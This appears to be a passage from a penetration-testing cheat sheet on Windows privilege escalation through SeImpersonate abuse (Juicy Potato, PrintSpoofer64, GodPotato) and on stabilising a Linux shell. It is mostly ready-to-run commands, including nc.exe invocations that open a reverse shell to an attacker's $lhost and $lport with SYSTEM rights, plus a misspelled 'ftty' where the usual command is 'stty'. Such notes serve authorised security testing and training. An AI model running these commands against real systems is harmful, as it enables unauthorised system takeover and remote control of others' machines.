 [list of CLSID](https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md)

**Process creation mode (-t)**
depending on the impersonated user's privileges you can choose from:

- CreateProcessWithToken (needs `SeImpersonate`)
- CreateProcessAsUser (needs `SeAssignPrimaryToken`)
- both

##### [PrintSpoofer64](https://github.com/itm4n/PrintSpoofer)
From LOCAL/NETWORK SERVICE to SYSTEM by abusing `SeImpersonatePrivilege` on Windows 10 and Server 2016/2019.
```
.\PrintSpoofer64.exe -c "C:\path\to\nc.exe $lhost $lport -e cmd"
```

```
.\PrintSpoofer64.exe -i -c powershell.exe
```

Releases [link](https://github.com/itm4n/PrintSpoofer/releases).

##### [GodPotato](https://github.com/BeichenDream/GodPotato)
Affected version: Windows Server 2012 - Windows Server 2022 and Windows 8 - Windows 11

Reverse shell:
```
.\GodPotato.exe -cmd "nc.exe -t -e C:\Windows\System32\cmd.exe $lhost $lport"
```

## Linux

Credits:
[Ansible Playbook Privilege Escalation](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/ansible-playbook-privilege-escalation/)
[PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md)
## Stabilize shell:

After getting a shell, try to spawn a terminal with this command:
```
python -c "import pty;pty.spawn('/bin/bash')"
```

Enter CTRL+z and then type this command:
```
ftty raw -echo; fg
```

Set the terminal emulator to xterm:
```
export TERM=xterm
```

Done!
